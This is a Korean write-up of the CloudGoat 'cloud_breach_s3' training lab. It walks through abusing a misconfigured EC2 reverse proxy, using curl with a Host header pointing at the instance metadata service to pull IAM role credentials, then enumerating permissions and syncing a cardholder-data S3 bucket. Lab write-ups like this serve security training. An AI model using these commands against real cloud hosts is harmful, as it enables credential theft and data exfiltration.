# 클라우드 서비스 취약점 분석 4

# [Scenario 3]:  Cloud Breach s3

```bash
Size: Small
Difficulty: Moderate
Command: $ ./cloudgoat.py create cloud_breach_s3
```

## 시나리오 개요

### 자원

- VPC (EC2, S3)

### 취약점

- 개발자의 실수로 인한 ReverseProxy 환경 구성 미흡
- 설정 값이 잘못 구성되어 Reverse Proxy로 동작하는 EC2 서버의 IP 주소

### 목표

- S3 bucket에서 Confidential files을 다운로드 합니다.
- 액세스 권한이 없는 상태인 외부 접근자로 시나리오는 시작합니다. 설정이 잘못된 Reverse Proxy server를 Exploit하여 EC2 MetaData Service를 통해 인스턴스 프로필 키를 획득합니다. 그런 다음 해당 키를 사용하여 S3 Bucket에서 권한을 우회하여 데이터를 추출합니다.

### exploit 흐름도



### 시나리오 환결설정



### exploit 시나리오 흐름도

- 공격자가 EC2 인스턴스의 IP를 발견하였습니다. 다양한 방법으로 분석을 빈행하면서 reverse proxy 서버 역활을 하고 있음을 인자하였습니다.
- 이러한 EC2 서버를 Reverse Proxy로 구성하는 이유는 on-premise에서 클라우드로 전환하는 과정에있는 아키텍처에서 자주 있는 상황입니다.
- 분석후 공격자는 `curl` 을 통해 웹 서버에 요청을 보낼때 호스트 헤더를 EC2 metadata service의 ip 주소로 설정합니다.
- 공격자가 조작한 요청 패킷이 성공적으로 수행되었다면 EC2 인스턴스에 연결된 IAM 인스턴스 프로파일의 액세스 키ID, Security 액세스 키, 세션 토큰등을 얻게됩니다.
- IAM credential 을 가지고 공격자는 Rule 정채에 부여된 강력한 권한을 사용하여 피해자의 클라우드 환경을 탐색할 수 가 있습니다.
- 공격자는 Private S3 Bucket 을 list화 식별, 접근등 비인가된 행위를 지속적으로 합니다.
- Private S3 Bucket 내에서 공격자는 민감한 정보로 가득찬 여러 파일을 찾아서 로컬로 다운받아 배포를 하고 시나리오를 마칩니다.

## Exploit 시나리오

### EC2 Instance, IP 분석및 활용

- 해당 시나리오는 공격자로부터 특정 서버를 분석하여 Reverse proxy 서버로 80포트가 운영되고 있는 곳을 알아냈습니다.
- Reverse proxy로 자주 사용되는 프레임워크인 Nginx, Traefik 등, 애플리케이션 계층의 `Edge Route` 를 실행하는 일반적인 시나리오 입니다.
- Reverse Proxy Server를 Exploit하여 EC2 Instance Metadata server(IMDS)에 연결을 할 수 있는지 확인을 해보겠습니다.
- `CURL`  HTTP 클라이언트를 사용하여 메타데이터 검색용으로 새로운 HTTP 요청을 만듭니다.
- IMDS 서비스상에서 IP 주소를 참조하는 "Host" header를 추가하였습니다.
- 만약에 Reverse Proxy Server에 관용적으로 Enable상태이면 IMDS Service로 전달이 되고 일부 메타데이터 정보를 얻을 수 있습니다.

```bash
curl -s http://54.147.185.174/latest/meta-data/ -H 'Host:169.254.169.254'
```



- 다음과 같이 Link Local Address IP주소를 사용하여 외부 애플리케이션에 대해 연결을 관리할 수 가 있습니다.

### EC2 Metadata Service Query를 위해 잘못 구성한 reverse proxy를 Exploit

- `Instance Metadata` 기능 때문에 클라우드 리소스상에서 더욱 심각한 보안 문제가 발생하고 있습니다.

**Instance Metadata가 무엇일까?**

- 실행중인 인스턴스를 구성하거나 관리하는데 사용할 수 있는 인스턴스에 대한 데이터입니다.
- 인스턴스 메타데이터는 Link Local Address인 IP주소 호스트로 액세스할 수 있으며 인스턴스에서만 유효합니다.
- AWS 도큐먼트를 참고하면 AWS EC2 console, AWS CLI를 사용할 필요가 없고 인스턴스 메터데이터에서 인스턴스의 로컬 IP 주소에 액세스 하여 외부 애플리케이션에 대한 연결을 관리할 수 있다고 나와있습니다.

```bash
http://169.254.169.254/latest/meta-data/
```

- Reverse Proxy Server에 AWS EC2 IMDS에 액세스 할기 위해 Exploit을 할 수 있는 이유가 잘못된 구성입니다.
- 공격자의 관점에서 IMDS에 저장된 가장 가치가 있는 정보는 IAM Rule Credential 입니다.
- IAM Rule Credential을 탈취할 수 있다면 IAM Rule에 해당하는 모든 것을 확인할 수 있습니다.
- 실제로 EC2 Instance에 S3 Bucket과 같은 AWS 계정의 다른 서비스와 상호 작용하는데 사용하는 IAM Rule이 있는 것이 일반적입니다.



- AWS 도큐먼트를 살펴보면 해당 IMDS 형태로 특정 경로를 통해 다양한 정보들을 확인할 수 있는 리스트를 확인할 수 있습니다.
- EC2 Instance에서 IMDS를 통해 액세스할 수 있는 IAM Credential을 추출해 보겠습니다.
- `/iam/security-credentials/` 해당 route에 접근하여 사용되는 `role-name`을 확인할 수 있습니다. 이러한 정책에 해당하는 규칙이 어떤 접근을 하는지, 어떤 역활을 하는지가 중요합니다.

```bash
curl -s http://54.147.185.174/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```



- `cg-banking-WAF-Role-cloud_breach_s3_cgidmy4bprdx0t` 탈취한 정책 이름을 토대로 route 하게되면 AccessKeyId, SecretAccessKey, Token  정보를 알아낼 수 있습니다.

```bash
curl -s http://54.147.185.174/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cloud_breach_s3_cgidmy4bprdx0t \
-H 'Host:169.254.169.254'
```



- 탈취한 IAM Rule Credential 은 다른 IAM Credential처럼 사용할 수 있습니다.

### 상호 연결된 EC2 인스턴스 프로파일을 가정

- 앞에서 탈취한 IAM Rule Credential을 사용하여 수행할 수 있는 작업들을 Enum 하기 위해서 AWS CLI를 사용하여 프로파일을 지정해야 합니다.
- 하지만 IAM Rule Credential은 Life cycle이 짧고 Session Token이 존재하기 때문에 Session Token은 파일의 프로파일에 수동으로 추가해야 합니다.



### S3 Bucket 리스트

- 앞선 IAM Rule Credential 정보를 토대로 AWS Profile을 생성했습니다.
- 해당 정보를 사용하여 IAM enumerate하여 Rule Access를 확인하여 해당 권한에 맞는 공격 벡터를 찾게 되었습니다.
- iam Rule Enumerate를 사용하는데 있어서 밑의 enumerate-iam 오픈 소스 도구를 활용하여 정보를 확인하였습니다.

```python
aws_access_key_id = <ACCESS_KEY>
aws_secret_access_key = <ACCESS_SECRET_KEY>
aws_session_access_key = <ACCESS_SESSION_KEY>
```

```bash
https://github.com/andresriancho/enumerate-iam
```



- IAM Rule에는 계정의 S3 Bucket에대한 권한이 있는 사실을 알 수 가 있습니다. AWS CLI를 사용하여 Bucket을 Enum하고 S3bucket에 저장된 데이터를 다운로드 해보겠습니다.

### S3 "SYNC" 명령을 통해 Cardholder-data Bucket에서 중요한 데이터 탈취



- s3 bucket 내에 존재하는 데이터를 나열하여 추출할 데이터의 이름을 수집합니다



- S3 bucket 내의 데이터를 로컬로 다운로드 받을 수 있도록 sync 를 진행하여 목표인 파일을 추출 합니다.


```toc
```